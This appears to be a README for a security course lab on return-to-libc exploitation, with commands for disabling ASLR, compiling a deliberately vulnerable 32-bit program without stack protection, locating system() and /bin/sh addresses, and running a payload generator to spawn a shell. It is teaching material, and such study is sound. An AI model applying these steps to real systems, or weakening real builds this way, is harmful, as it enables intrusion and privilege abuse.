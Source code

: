 # Lab 2 — Libc-Attack

## Overview

This project implements a classic stack-based buffer overflow to demonstrate a **Return-to-libc (ret2libc)** attack on a 32-bit Linux binary with a non-executable stack (NX bit).

## Prerequisites

- 32-bit Linux VM (lab environment)
- `gcc` with multilib support (if building 32-bit on a 64-bit host)
- Python 3
- GDB (with **peda** or a similar helper is helpful)
- Example seed image: https://seedsecuritylabs.org/lab_env.html

---

## Repository files

| File | Description |
|------|-------------|
| `retlib.c` | Vulnerable program with a stack-based buffer overflow. |
| `envaddr.c` | Helper utility to print the address of an environment variable. |
| `exploit.py` | Python script to generate the `badfile` payload. |
| `badfile` | Binary payload file generated by `exploit.py`. |
| `README.md` | This documentation. |
| `images/` | Screenshots of the exploitation process. |

### Image references

![Output of envaddr helper](images/01-envaddr.png)

![Hexdump of badfile payload](images/02-hexdump.png)

---

## Exploitation flow

The attack bypasses the non-executable stack by overwriting the saved return address to point to the `system()` function in `libc`.

**High-level steps:**

1. Disable ASLR (optional for lab reproducibility).
2. Find addresses for `/bin/sh`, `system()`, and `exit()`.
3. Construct a payload that overwrites the saved return address and places arguments for `system()` on the stack.
4. Run the vulnerable program with the crafted payload to spawn a shell.

### Detailed steps

1. **Disable ASLR (for repeatable addresses in this lab)**

   > **Warning:** Disabling ASLR affects system security. Do this only in a controlled lab VM and revert afterward.

   ```bash
   # As root
   echo 0 > /proc/sys/kernel/randomize_va_space
   ```

2. **Set up environment and find target addresses**

   ```bash
   # Make sure /bin/sh is set as an environment variable (used by envaddr)
   export MYSHELL=/bin/sh

   # Compile and run envaddr (see section "How to compile")
   ./envaddr
   # Example output: Address: 0xbfffff01
   ```

   Use GDB (or `readelf`/`objdump` on libc) to find `system()` and `exit()` addresses in the process's libc mapping. Example using GDB:

   ```gdb
   gdb -q ./retlib
   (gdb) run < badfile
   (gdb) p (void*) system
   (gdb) p (void*) exit
   ```

   You may also attach to a running process or inspect `/proc/<pid>/maps` to locate libc.

3. **Construct the payload**

   The `exploit.py` script produces a `badfile` that overflows the vulnerable buffer and overwrites the saved return address.

   **Typical payload layout (32-bit, little-endian):**

   ```
   [ padding up to saved EBP ]
   [ saved EBP (optional placeholder) ]
   [ system_addr (overwritten return address) ]
   [ exit_addr   (next return address, used by system as cleanup) ]
   [ sh_addr     (pointer to "/bin/sh" string) ]
   ```

   This layout ensures that when the function returns it jumps to `system()` with the address of `/bin/sh` as its argument. After `system()` returns, control goes to `exit()`.

4. **Execute the exploit**

   ```bash
   # Generate badfile (after updating exploit.py with discovered addresses)
   python3 exploit.py

   # Run vulnerable program (it reads badfile and triggers overflow)
   ./retlib
   ```

   If successful, `system("/bin/sh")` runs and spawns a shell.

---

## How to compile (examples)

1. Compile 32-bit vulnerable binary and helper:

```bash
# Compile retlib as 32-bit disabling stack protector and keeping stack non-executable
gcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack

# Compile envaddr helper
gcc -m32 -o envaddr envaddr.c
```

> Note: Some toolchains require additional packages (multilib). On Debian/Ubuntu you may need `gcc-multilib` and `libc6-dev-i386`.

---

##  Exact compile commands — alternative placement

```bash
# Compile retlib and envaddr for 32-bit
gcc -m32 -fno-stack-protector -z noexecstack -o retlib retlib.c
gcc -m32 -o envaddr envaddr.c
```

> **Security note:** `-z noexecstack` marks the binary as not requiring an executable stack (demonstrates ret2libc bypass of NX). Do this **only** in a controlled lab VM.

---

##  Disable / re-enable ASLR (for reproducibility)

Disabling ASLR makes addresses repeatable in this lab. Re-enable it after testing.

```bash
# Disable (lab only; requires root)
sudo sysctl -w kernel.randomize_va_space=0

# Re-enable when done
sudo sysctl -w kernel.randomize_va_space=2
```

---

##  `envaddr` usage to get `/bin/sh` address

```bash
export MYSHELL=/bin/sh
./envaddr
# Example output: Address: 0xbfffff01
# Use this value as sh_addr.
```

---

## Example

```bash
export MYSHELL=/bin/sh
./envaddr
# Example: Address: 0xbfffff01

# After updating exploit.py with discovered addresses
python3 exploit.py
hexdump -C badfile | tail
# ... hexdump shows the little-endian addresses for system, exit, and "/bin/sh"

./retlib
# Program prints buffer addresses and, on success, you get a shell
whoami   # -> seed
echo $?  # -> 0
```

---

